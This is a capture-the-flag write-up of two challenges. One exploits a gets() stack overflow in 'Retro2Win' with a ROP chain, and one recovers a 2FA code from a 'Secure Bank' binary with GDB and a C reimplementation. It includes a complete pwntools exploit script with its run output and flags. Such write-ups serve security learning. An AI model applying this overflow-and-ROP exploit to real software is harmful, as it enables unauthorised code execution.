


## Pwn

### Retro2Win

#### Description

> So retro.. So winning..
>

#### Analysis

Let's see what's so special about this binary:

```bash
➜  challenge file retro2win
retro2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a7a81c7077ad6d86789f32538036d684003f7e7c, not stripped
➜  challenge checksec --file=retro2win
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   79 Symbols        No    0               3               retro2win
```

We can see this is a 64 bit binary and no `PIE` with Canary

Let's take a quick look at the pseudo-code of that binary using IDA:

- `main()` function:

```c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h] BYREF

  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        show_main_menu(*(_QWORD *)&argc, argv, envp);
        argv = (const char **)&v4;
        *(_QWORD *)&argc = "%d";
        __isoc99_scanf("%d", &v4);
        getchar();
        if ( v4 != 2 )
          break;
        battle_dragon();
      }
      if ( v4 > 2 )
        break;
      if ( v4 != 1 )
        goto LABEL_12;
      explore_forest();
    }
    if ( v4 == 3 )
      break;
    if ( v4 == 1337 )
    {
      enter_cheatcode();
    }
    else
    {
LABEL_12:
      *(_QWORD *)&argc = "Invalid choice! Please select a valid option.";
      puts("Invalid choice! Please select a valid option.");
    }
  }
  puts("Quitting game...");
  return 0;
}

```

- `enter_cheatcode()` function:

```c
int enter_cheatcode()
{
  char v1[16]; // [rsp+0h] [rbp-10h] BYREF

  puts("Enter your cheatcode:");
  gets(v1);
  return printf("Checking cheatcode: %s!\\n", v1);
}

```

- `cheat_mode()` function:

```c
int __fastcall cheat_mode(__int64 a1, __int64 a2)
{
  char s[72]; // [rsp+10h] [rbp-50h] BYREF
  FILE *stream; // [rsp+58h] [rbp-8h]

  if ( a1 != 0x2323232323232323LL || a2 != 0x4242424242424242LL )
    return puts("Unauthorized access detected! Returning to main menu...\\n");
  puts("CHEAT MODE ACTIVATED!");
  puts("You now have access to secret developer tools...\\n");
  stream = fopen("flag.txt", "r");
  if ( !stream )
    return puts("Error: Could not open flag.txt");
  if ( fgets(s, 64, stream) )
    printf("FLAG: %s\\n", s);
  return fclose(stream);
}

```

In the **`main()`** function we see that it will ask and prompt us to enter the options. And if the option we enter is **1337** then it will call the **`enter_cheatcode()` function.**

In the **`enter_cheatcode()`** function it uses a **`gets()`** function, this function is quite dangerous because it does not check the memory limit of the string, which means we can enter a string with a length exceeding the size of v1, which means entering more than 16 bytes in this case.

So our goal is to make it overflow to **`cheat_mode()`** to read the **flag**

#### Offset

Use GDB to debug this binary

- Breakpoint at **`enter_cheatcode()`** and enter 1 test input:

```bash
gef➤  search-pattern helloiloveyou
[+] Searching 'helloiloveyou' in memory
[+] In '[heap]'(0x603000-0x624000), permission=rw-
  0x6036b0 - 0x6036bf  →   "helloiloveyou\\n"
[+] In '[stack]'(0x7ffffffdd000-0x7ffffffff000), permission=rw-
  0x7fffffffdaf0 - 0x7fffffffdafd  →   "helloiloveyou"
gef➤  i f
Stack level 0, frame at 0x7fffffffdb10:
 rip = 0x400811 in enter_cheatcode; saved rip = 0x400939
 called by frame at 0x7fffffffdb30
 Arglist at 0x7fffffffdb00, args:
 Locals at 0x7fffffffdb00, Previous frame's sp is 0x7fffffffdb10
 Saved registers:
  rbp at 0x7fffffffdb00, rip at 0x7fffffffdb08

```

As we have seen when we enter a string **`helloiloveyou`** then our input will be at **`0x7fffffffdaf0`** and what we want is to control **`RIP(0x7fffffffdb0)`** to have control over the execution flow of the program

So our offset from input to **RIP** is **0x18 (24)** byte

```python
>>> hex(0x7fffffffdb08- 0x7fffffffdaf0)
'0x18'
```

But there is one thing after we have controlled RIP, that is the condition in the function **cheat\_mode()**

```c
if ( a1 != 0x2323232323232323LL || a2 != 0x4242424242424242LL )
    return puts("Unauthorized access detected! Returning to main menu...\\n");

```

So we have to somehow call those 2 params **`cheat_mode(0x2323232323232323, 0x4242424242424242)`**

A quick word about **x86_64 calling conventions**. When we call a function, its first **6 arguments** will be stored by **registers** in the order **RDI, RSI, RDX, RCX, R8, R9;** and the following **arguments** will be put into the stack from right to left (because the stack is a LIFO structure). So we will set **RDI = 0x2323232323232323** and **RSI = 0x424242424242424**2 before entering **cheat_mode()**

To do this, we will use a ROP chain

```bash
➜  challenge ROPgadget --binary retro2win > gadgets
➜  challenge cat gadgets | grep "pop rdi"
0x00000000004009b3 : pop rdi ; ret
➜  challenge cat gadgets | grep "pop rsi"
0x00000000004009b1 : pop rsi ; pop r15 ; ret
```

With that much information, we will start writing the exploit for this article.

#### Exploit

Since after pop rsi there will be **pop r5**, it will still be fine to use this gadget and **r5** is not a problem for us. But we still need to fill the stack so it doesn't put **cheat_mode()** into **r15** we just need to replace it with **dummy_value**

```python
#!/usr/bin/python3

from pwn import *

# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-v', '-p', '90']
exe = context.binary = ELF('./retro2win', checksec=False)

# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

    b *0x400829
    c
''')

p = remote('retro2win.ctf.intigriti.io',1338) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB:
    GDB()
    input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

pop_rdi = 0x4009b3
pop_rsi_r5 = 0x4009b1
cheat_mode = 0x400736
dummy_value = 0x4242424242424242

pay = b'A' * 16   # fill in buffer
pay += b'B' * 8   # overwrite saved rbp
pay += p64(pop_rdi) + p64(0x2323232323232323)
pay += p64(pop_rsi_r5) + p64(0x4242424242424242) + p64(dummy_value)
pay += p64(cheat_mode)

sla(b'option:', b'1337')
sla(b'cheatcode:', pay)

p.interactive()
```

When we exit from **enter_cheatcode()** it will **return** to **pop_rdi** to **rop_rsi_r5** and then **cheat_code()** and the stack will look like this:

```bash
+---------------+       +---------------+
|  ........     | ----> |  AAAAAAAA     |
|---------------|       |---------------|
|  saved rbp    |       |  BBBBBBBB     |
|---------------|       |---------------|
|  saved rip    |       |  pop_rdi      |
|---------------|       |---------------|
|               |       |  0x2323.....  |
|---------------|       |---------------|
|               |       |  pop_rsi      |
|---------------|       |---------------|
|               |       |  0x4242.....  |
|---------------|       |---------------|
|               |       |  dummy_value  |    <--- pop r5
|---------------|       |---------------|
|               |       |  cheat_mode   |
|               |       |               |
+---------------+       +---------------+

```

```bash
➜  challenge python3 exploit.py REMOTE
[+] Opening connection to retro2win.ctf.intigriti.io on port 1338: Done
[*] Switching to interactive mode

Checking cheatcode: AAAAAAAAAAAAAAAABBBBBBBB\\xb3        @!
CHEAT MODE ACTIVATED!
You now have access to secret developer tools...

FLAG: INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}
[*] Got EOF while reading in interactive
```

## Reverse

#### Secure Bank

#### Description

> Can you crack the bank?
>



#### Solution

- **main()** function:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+4h] [rbp-Ch] BYREF
  int v5; // [rsp+8h] [rbp-8h] BYREF
  unsigned int _2fa_code; // [rsp+Ch] [rbp-4h]

  banner(argc, argv, envp);
  login_message();
  printf("Enter superadmin PIN: ");
  __isoc99_scanf("%u", &v5);
  if ( v5 == 1337 )
  {
    _2fa_code = generate_2fa_code(1337LL);
    printf("Enter your 2FA code: ");
    __isoc99_scanf("%u", &v4);
    validate_2fa_code(v4, _2fa_code);
    return 0;
  }
  else
  {
    puts("Access Denied! Incorrect PIN.");
    return 1;
  }
}

```

- **generate_2fa_code()** function:

```c
__int64 __fastcall generate_2fa_code(int a1)
{
  int i; // [rsp+Ch] [rbp-Ch]
  int v3; // [rsp+10h] [rbp-8h]
  unsigned int v4; // [rsp+14h] [rbp-4h]

  v4 = 48879 * a1;
  v3 = 48879 * a1;
  for ( i = 0; i <= 9; ++i )
  {
    v4 = obscure_key(v4);
    v3 = ((v4 >> ((char)i % 5)) ^ (v4 << (i % 7))) + __ROL4__(v4 ^ v3, 5);
  }
  return v3 & 0xFFFFFF;
}

```

- **obscure_key()** function:

```c
__int64 __fastcall obscure_key(int a1)
{
  return (4919 * __ROL4__(a1 ^ 0xA5A5A5A5, 3)) ^ 0x5A5A5A5Au;
}

```

- **validate_2fa_code()** function

```c
int __fastcall validate_2fa_code(int a1, int a2)
{
  if ( a1 != a2 )
    return puts("Access Denied! Incorrect 2FA code.");
  puts("Access Granted! Welcome, Superadmin!");
  return printf("Here is your flag: %s\\n", "INTIGRITI{fake_flag}");
}

```

As we can see the program asks us to enter the PIN code, and if we enter the PIN code as **1337** then it will ask us to enter the 2FA code. The question here is what is the 2FA code? And if we get the 2FA code then we will get the flag

#### Method 1

When looking at the disassembly of the **main()** function, we can see that when it calls the **generate_2fa_code()** function, it moves the value of **eax** into **var_4 (_2fa_code)**



And to know how much value it moves, let's debug it with GDB:

```bash
gef➤  b *main+117
Breakpoint 1 at 0x1386
gef➤  r
Starting program: /home/alter/CTFs/1337UP/Reverse/secure_bank/secure_bank
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
****************************************
*         Welcome to SecureBank        *
*    Your trusted partner in security  *
****************************************

========================================
=   SecureBank Superadmin Login System =
========================================

Enter superadmin PIN: 1337

Breakpoint 1, 0x0000555555555386 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x568720
$rbx   : 0x00007fffffffdc18  →  0x00007fffffffde96  →  "/home/alter/CTFs/1337UP/Reverse/secure_bank/secure[...]"
$rcx   : 0x2
$rdx   : 0x57c77bc8
$rsp   : 0x00007fffffffdae0  →  0x00007fffffffdbd0  →  0x0000555555555070  →  <_start+0000> xor ebp, ebp
$rbp   : 0x00007fffffffdaf0  →  0x00007fffffffdb90  →  0x00007fffffffdbf0  →  0x0000000000000000
$rsi   : 0xd5f1def
$rdi   : 0xa8497d36
$rip   : 0x0000555555555386  →  <main+0075> mov DWORD PTR [rbp-0x4], eax
$r8    : 0xa
$r9    : 0x0
$r10   : 0x00007ffff7f56fc0  →  0x0000000100000000
$r11   : 0x00007ffff7fa88e0  →  0x00000000fbad2288
$r12   : 0x1
$r13   : 0x0
$r14   : 0x0000555555557dd8  →  0x0000555555555110  →  <__do_global_dtors_aux+0000> endbr64
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000555555554000  →   jg 0x555555554047
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdae0│+0x0000: 0x00007fffffffdbd0  →  0x0000555555555070  →  <_start+0000> xor ebp, ebp     ← $rsp
0x00007fffffffdae8│+0x0008: 0x00007fff00000539
0x00007fffffffdaf0│+0x0010: 0x00007fffffffdb90  →  0x00007fffffffdbf0  →  0x0000000000000000     ← $rbp
0x00007fffffffdaf8│+0x0018: 0x00007ffff7dcf1ca  →  <__libc_start_call_main+007a> mov edi, eax
0x00007fffffffdb00│+0x0020: 0x00007fffffffdb40  →  0x0000555555557dd8  →  0x0000555555555110  →  <__do_global_dtors_aux+0000> endbr64
0x00007fffffffdb08│+0x0028: 0x00007fffffffdc18  →  0x00007fffffffde96  →  "/home/alter/CTFs/1337UP/Reverse/secure_bank/secure[...]"
0x00007fffffffdb10│+0x0030: 0x0000000155554040
0x00007fffffffdb18│+0x0038: 0x0000555555555311  →  <main+0000> push rbp
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x55555555537c <main+006b>      mov    eax, DWORD PTR [rbp-0x8]
   0x55555555537f <main+006e>      mov    edi, eax
   0x555555555381 <main+0070>      call   0x5555555551fa <generate_2fa_code>
●→ 0x555555555386 <main+0075>      mov    DWORD PTR [rbp-0x4], eax
   0x555555555389 <main+0078>      lea    rax, [rip+0xe7b]        # 0x55555555620b
   0x555555555390 <main+007f>      mov    rdi, rax
   0x555555555393 <main+0082>      mov    eax, 0x0
   0x555555555398 <main+0087>      call   0x555555555040 <printf@plt>
   0x55555555539d <main+008c>      lea    rax, [rbp-0xc]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "secure_bank", stopped 0x555555555386 in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555386 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  i f
Stack level 0, frame at 0x7fffffffdb00:
 rip = 0x555555555386 in main; saved rip = 0x7ffff7dcf1ca
 Arglist at 0x7fffffffdaf0, args:
 Locals at 0x7fffffffdaf0, Previous frame's sp is 0x7fffffffdb00
 Saved registers:
  rbp at 0x7fffffffdaf0, rip at 0x7fffffffdaf8
gef➤  i r
rax            0x568720            0x568720
rbx            0x7fffffffdc18      0x7fffffffdc18
rcx            0x2                 0x2
rdx            0x57c77bc8          0x57c77bc8
rsi            0xd5f1def           0xd5f1def
rdi            0xa8497d36          0xa8497d36
rbp            0x7fffffffdaf0      0x7fffffffdaf0
rsp            0x7fffffffdae0      0x7fffffffdae0
r8             0xa                 0xa
r9             0x0                 0x0
r10            0x7ffff7f56fc0      0x7ffff7f56fc0
r11            0x7ffff7fa88e0      0x7ffff7fa88e0
r12            0x1                 0x1
r13            0x0                 0x0
r14            0x555555557dd8      0x555555557dd8
r15            0x7ffff7ffd000      0x7ffff7ffd000
rip            0x555555555386      0x555555555386 <main+117>
eflags         0x202               [ IF ]
cs             0x33                0x33
ss             0x2b                0x2b
ds             0x0                 0x0
es             0x0                 0x0
fs             0x0                 0x0
gs             0x0                 0x0
fs_base        0x7ffff7da2740      0x7ffff7da2740
gs_base        0x0                 0x0

```

We can see the value of **eax** when moving into rbp-0x4 is 0x568720 which is equivalent to **5670688**

And that is the 2FA code, use it to enter and get the flag

```bash
➜  secure_bank nc securebank.ctf.intigriti.io 1335
****************************************
*         Welcome to SecureBank        *
*    Your trusted partner in security  *
****************************************

========================================
=   SecureBank Superadmin Login System =
========================================

Enter superadmin PIN: 1337
Enter your 2FA code: 5670688
Access Granted! Welcome, Superadmin!
Here is your flag: INTIGRITI{pfff7_wh47_2f4?!}

```

#### Method 2

Since the pseudo-code is simply generating 2FA code, we can rebuild it in C and run it to see what the 2FA code is:

```c
#include <stdio.h>

unsigned int obscure_key(int a1) {
return (4919 * __ROL4__(a1 ^ 0xA5A5A5A5, 3)) ^ 0x5A5A5A5A;
}

unsigned int generate_2fa_code(int a1) {
int i;
unsigned int v3, v4;

v4 = 48879 * a1;
v3 = 48879 * a1;
for (i = 0; i <= 9; ++i) {
v4 = obscure_key(v4);
v3 = ((v4 >> (i % 5)) ^ (v4 << (i % 7))) + __ROL4__(v4 ^ v3, 5);
v3 &= 0xFFFFFFFF;
}
return v3 & 0xFFFFFF;
}

int main() {
int a1 = 1337;
unsigned int code = generate_2fa_code(a1);
printf("Generated 2FA code: %u\\n", code);
return 0;
}

```

```bash
➜  secure_bank gcc secure_bank.c -o solve
➜  secure_bank ./solve
Generated 2FA code: 5670688
```
